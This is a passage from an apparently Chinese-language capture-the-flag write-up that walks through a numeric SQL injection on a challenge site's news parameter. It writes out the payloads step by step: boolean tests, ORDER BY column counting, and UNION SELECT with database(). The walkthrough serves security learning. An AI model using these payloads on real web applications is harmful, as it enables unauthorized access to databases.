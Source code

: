 ![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1732457392918-f510b033-a0a8-4832-92e1-38122f5f0fb4.png)

#### 6

将单引号转换为了双引号而已

### 其他例题

首先进入后发现一个登录界面,发现无论如何都没办法进行sql注入，只有

![img](https://s2.loli.net/2024/11/24/a54MTKQHroRfjB2.png)

界面

这里卡住了，在网上搜了wp后发现要从其他地方sql注入

F12进入网络界面，点击测试新闻，发现如下代码

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1723711735565-651d6f2a-b5ef-4da5-b0b7-e2a279c05489.png)

发现get相关传参，猜测可能有sql注入点位

#### 测试流程

##### 判断注入类型

分别输入

一、1 and 1=1%23

二、1 and 1=2%23

一有回显，二无回显

因此判断注入类型为数字型

之后进行猜行

```plain
1 order by 1%23
1 order by 1,2%23
1 order by 1,2,3%23
```

发现仅12有回显，3无回显，故得知有两行

然后推测位置

1 union select 1,2#

![img](https://s2.loli.net/2024/11/24/dC35fVBEwoJ8DbX.png)

确认了输出位置

之后开始确认表

输入

1 union select 1,database()%23
